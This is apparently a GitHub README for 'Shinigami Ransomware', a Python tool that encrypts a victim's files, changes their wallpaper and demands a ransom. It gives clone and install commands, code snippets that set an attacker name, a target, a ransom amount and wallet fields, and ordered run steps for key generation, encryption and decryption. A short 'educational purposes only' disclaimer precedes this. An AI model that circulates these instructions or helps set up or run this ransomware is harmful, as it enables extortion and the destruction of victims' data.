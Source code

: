 # Shinigami Ransomware

![content](https://drive.google.com/uc?export=download&id=1PVc9S78bgkLvC2R_mwF1I_yHOtmBerfZ)

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker to infect a target with ransomware
Note: Run in a virtual machine

## Features

- It encrypts the files of the target and requests for a ransom
- It changes the wallpapper of the target's system
- It decrypts the files of the target

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/shinigami-ransomware.git && cd shinigami-ransomware
```

```shell
pip install requirements.txt
```

## Usage

For ransomware_encryptor.py

```python
attacker, target, amount, display, path_ext, emailAddress, walletAddress = "Uchiha Minato", "Mountain_Hotel", "25,000", True, "OneDrive", "email-address", "wallet-address"
attack(attacker, target, amount, display, path_ext, emailAddress, walletAddress)
```

For ransomware_decryptor.py

```python
attacker = r"Uchiha Minato"
target = r"Mountain_Hotel"
display = True
key = None
path_ext = "OneDrive"
main(attacker, target, display, key, path_ext)
```

## Run

First you will have create the private and public key for crypting

```shell
python shinigami_seal.py
```

Then run the ransomware encryptor

```shell
python ransomware_encryptor.py
```

After the encryptor has finished running, it would create an encrypted fernet key in the desktop,
you would have to decrypt the fernet key using

```shell
python shinigami_fernet_decryptor.py
```

After this, a decryption key would be created, then run the ransomware decryptor to decrypt files

```shell
python ransomware_decryptor.py
```
